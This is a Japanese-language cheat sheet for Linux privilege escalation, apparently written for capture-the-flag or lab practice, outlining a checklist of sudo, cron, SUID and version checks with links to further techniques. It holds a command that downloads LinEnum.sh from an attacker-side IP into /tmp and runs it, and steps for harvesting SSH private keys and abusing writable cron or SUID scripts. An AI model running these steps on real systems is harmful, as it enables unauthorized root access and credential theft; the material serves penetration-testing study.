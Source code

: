 # Linux Privilege Escalation

## 実行フロー
1. sudo -l の実行
2. LinEnum の実行
3. ホームディレクトリの確認
4. Cron の確認
5. SUID / SGID の確認
6. Bash のバージョン確認
7. Sudo のバージョン確認


## 1. sudo -l の実行
### root 権限で実行可能なコマンドが存在する場合
[GTFOBins](https://gtfobins.github.io/) で検索

### ユーザー環境から継承された環境変数が存在する場合
- LD_PRELOAD が存在する場合は[こちら](https://github.com/tipotto/CheatSheet/blob/main/privilege-escalation2.md#ld_preload-%E3%81%8C%E5%AD%98%E5%9C%A8%E3%81%99%E3%82%8B%E5%A0%B4%E5%90%88)  
- LD_LIBRARY_PATH が存在する場合は[こちら](https://github.com/tipotto/CheatSheet/blob/main/privilege-escalation2.md#ld_library_path-%E3%81%8C%E5%AD%98%E5%9C%A8%E3%81%99%E3%82%8B%E5%A0%B4%E5%90%88)

## 2. LinEnum の実行
```
wget http://10.4.49.251/LinEnum.sh -O /tmp/LinEnum.sh; chmod +x /tmp/LinEnum.sh
cd /tmp && ./LinEnum.sh
```

## 3. ホームディレクトリの確認
- [ ] 一般ユーザーは存在するか
- [ ] ディレクトリにアクセスできるか
- [ ] SSH 秘密鍵は取得できるか
- [ ] 手がかりとなるファイルは存在するか
- [ ] フラグとなるファイルは存在するか

## 4. Cron の確認
- [ ] Crontab に怪しいファイルは存在するか
- [ ] スクリプトのディレクトリは置き換え可能か
- [ ] スクリプトは書き換え可能か

存在する場合...
### 4-1. 指定方法がスクリプト名（絶対パスでない）の場合
環境変数 PATHの追加は[こちら](https://github.com/tipotto/CheatSheet/blob/main/privilege-escalation2.md#%E7%92%B0%E5%A2%83%E5%A4%89%E6%95%B0-path)

### 4-2. 指定方法が絶対パスの場合
・ディレクトリに書き込み権限がある場合  
→スクリプトを置き換える

・ファイルに書き込み権限がある場合  
→スクリプトを書き換える

## 5. SUID / SGID の確認
- [ ] 既存の脆弱性（Exim <= 4.84-3 など）は存在するか
- [ ] スクリプトのディレクトリは置き換え可能か
- [ ] スクリプトは書き換え可能か
- [ ] 内部で実行されているプログラム（コマンド）はコマンド名で指定されている（絶対パスでない）か

・ディレクトリ、ファイルに書き込み権限がある場合  
共有オブジェクトの利用は[こちら](https://github.com/tipotto/CheatSheet/blob/main/privilege-escalation2.md#%E5%85%B1%E6%9C%89%E3%82%AA%E3%83%96%E3%82%B8%E3%82%A7%E3%82%AF%E3%83%88%E3%81%AE%E5%88%A9%E7%94%A8)

・内部で実行されているプログラム（コマンド）がコマンド名で指定されている場合
環境変数の利用は[こちら](https://github.com/tipotto/CheatSheet/blob/main/privilege-escalation2.md#%E7%92%B0%E5%A2%83%E5%A4%89%E6%95%B0)

## 6. Bash のバージョン確認
こちらを参照

## 7. Sudo のバージョン確認
こちらを参照


